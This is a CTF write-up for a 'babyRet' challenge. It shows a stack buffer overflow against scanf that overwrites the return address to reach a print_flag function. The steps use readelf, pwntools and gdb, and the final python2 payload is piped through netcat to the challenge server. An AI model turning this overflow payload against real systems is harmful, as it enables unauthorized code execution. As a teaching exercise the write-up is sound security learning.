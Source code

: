 # babyRet	

We are given a netcat connection, an executable an a .c file.

Looking at the .c file we can see that it might be vulnerable to a buffer overflow on the scanf function, we need to get to the print_flag function.

```
readelf -s ret0
```

> 68: 00000000004011b3    89 FUNC    GLOBAL DEFAULT   13 print_flag

We need to get to that address, we can use pwntools to get the address in the correct format.

```
from pwn import *
print(p32(vuln.symbols['print_flag']))
```

> b'\xb3\x11@\x00'

We also need to find how many characters are needed for the overflow, 24 seem to be the indicated. 

We can also play a little bit with gdb to see the addresses as we modify them, first we need to get the payload into a file 

```
python2 -c "from pwn import *; print 'A' * 24 + '\xb3\x11@\x00'" > test.txt
```

We break in main and run the file in gdb as 

```
(gdb) r < test.txt
```

We step in the file and see the frame to see if we correctly modified the rip register. 

```
(gdb) info frame
```

We can see that we are not quite right

> rip = 0x401259 in main (ret0.c:30); saved rip = 0x7f00004011b3

We only need to add more \x00 to the payload

```
python2 -c "from pwn import *; print 'A' * 24 + '\xb3\x11@\x00\x00\x00\x00'" | ./ret0
```

We got the dummy flag!

> What is your favorite food?
Cool.
wsc{Th0s3_p3sky_STACKS!!!}
## Payload 

```
python2 -c "from pwn import *; print 'A' * 24 + '\xb3\x11@\x00\x00\x00\x00'" | nc 107.191.51.129 5000
```

## Flag

> wsc{Th0s3_p3sky_STACKS!!!}

